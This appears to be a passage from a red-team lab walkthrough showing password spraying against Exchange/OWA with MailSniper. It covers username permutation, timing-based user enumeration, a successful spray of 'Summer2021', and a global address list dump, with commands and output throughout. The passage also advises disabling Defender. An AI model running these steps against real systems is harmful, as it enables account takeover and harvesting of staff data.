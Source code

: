 Password spraying is an effective technique for discovering weak passwords that users are notorious for using. Patterns such as MonthYear (August2019), SeasonYear (Summer2019) and DayDate (Tuesday6) are very common.


> Be cautious of localisations, e.g. Autumn vs Fall.

Two excellent tools for password spraying against Office 365 and Exchange are [MailSniper](https://github.com/dafthack/MailSniper) and [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit).

On the **attacker-windows** VM, open PowerShell and import MailSniper.ps1.

```shell
PS C:\> ipmo C:\Tools\MailSniper\MailSniper.ps1
```

> You'll have to disable Defender's Real-time protection first.

Enumerate the NetBIOS name of the target domain with `Invoke-DomainHarvestOWA`.

```shell
PS C:\> Invoke-DomainHarvestOWA -ExchHostname 10.10.15.100
[*] Harvesting domain name from the server at 10.10.15.100
The domain appears to be: CYBER or cyberbotic.io
```


Next, we need to find valid usernames from the list of users enumerated from [https://cyberbotic.io](https://www.cyberbotic.io/).
```shell
root@kali:~# cat names.txt
Bob Farmer
Isabel Yates
John King
Joyce Adams
```

[namemash.py](https://gist.github.com/superkojiman/11076951) is a python script that I've used for as long as I can remember. It will take a person's full name, and transform it into possible username permutations.

```shell
root@kali:~# /opt/namemash.py names.txt >> possible-usernames.txt
root@kali:~# head -n 5 possible-usernames.txt
bobfarmer
farmerbob
bob.farmer
farmer.bob
farmerb
```

Copy the list across to the Windows VM.

```shell
PS C:\> pscp root@kali:/root/possible-usernames.txt .
```

`Invoke-UsernameHarvestOWA` uses a timing attack to validate which (if any) of these usernames are valid.

```shell
PS C:\> Invoke-UsernameHarvestOWA -ExchHostname 10.10.15.100 -Domain CYBER -UserList .\possible-usernames.txt -OutFile valid.txt
[*] Now spraying the OWA portal at https://10.10.15.100/owa/
Determining baseline response time...
Response Time (MS)       Domain\Username
770                      CYBER\nigojk
766                      CYBER\hnIYRl
763                      CYBER\DlQFbq
767                      CYBER\ghyWXj
771                      CYBER\uQbXAI

         Baseline Response: 767.4

Threshold: 460.44
Response Time (MS)       Domain\Username
764                      CYBER\THdtMw
776                      CYBER\rVNvmq
854                      CYBER\AvaPOc
767                      CYBER\ZQpHFz
764                      CYBER\WYTZHK
77                       CYBER\iyates
[*] Potentially Valid! User:CYBER\iyatesgs
[*] A total of 1 potentially valid usernames found.
Results have been written to valid.txt.
```

This output shows one valid result for **CYBER\iyates**.

You can run this again and target `-Domain DEV`, which will also find valid results for:

-   DEV\\bfarmer
-   DEV\\jking
-   DEV\\jadams

This requires a little bit of explaining. **cyberbotic.io** is the root of the Active Directory forest, who's NetBIOS name is **CYBER**. But cyberbotic.io has a child domain called **dev.cyberbotic.io**, who's NetBIOS name is **DEV**. From this, we can ascertain that iyates is a user in the parent domain; whilst bfarmer, jking and jadams exist in the child domain.

However, without just guessing at domain names, we don't have a reliable way of knowing DEV ever existed. You may be able to find some clues from your OSINT such as leaked internal domain names.

MailSniper can spray passwords against the valid account(s) identified using, Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS).
```shell
PS C:\> Invoke-PasswordSprayOWA -ExchHostname 10.10.15.100 -UserList .\valid.txt -Password Summer2021
[*] Now spraying the OWA portal at https://10.10.15.100/owa/
[*] SUCCESS! User:CYBER\iyates Password:Summer2021
[*] A total of 1 credentials were obtained.
```

**OPSEC Alert**  
  
> In the real world, be aware that these authentication attempts may count towards the domain lockout policy for the users. Too many attempts in a short space of time is not only loud, but may also lock accounts out.

We can do further actions using MailSniper with valid credentials, such as downloading the global address list.

```shell
PS C:\> Get-GlobalAddressList -ExchHostname 10.10.15.100 -UserName CYBER\iyates -Password Summer2021 -OutFile gal.txt
[*] First trying to log directly into OWA to enumerate the Global Address List using FindPeople...
[*] This method requires PowerShell Version 3.0
[*] Using https://10.10.15.100/owa/auth.owa
[*] Logging into OWA...
[*] OWA Login appears to be successful.
[*] Retrieving OWA Canary...
[*] Successfully retrieved the X-OWA-CANARY cookie: ahhlRb0kZUKEg8YEo5ZZtQDYwqU8EdkIl7OJ7_ugwGfk56YCYe0ilgE2GKVxCNJTMpqknR3QJ_M.
[*] Retrieving AddressListId from GetPeopleFilters URL.
[*] Global Address List Id of b4477ba8-52b0-48bf-915e-d179db98788b was found.
[*] Now utilizing FindPeople to retrieve Global Address List
[*] Now cleaning up the list...
bfarmer@cyberbotic.io
iyates@cyberbotic.io
jadams@cyberbotic.io
jking@cyberbotic.io
nglover@cyberbotic.io
[*] A total of 5 email addresses were retrieved
[*] Email addresses have been written to gal.txt
```

If there are names here that we didn't find during OSINT, we can go back and do another round of spraying against them.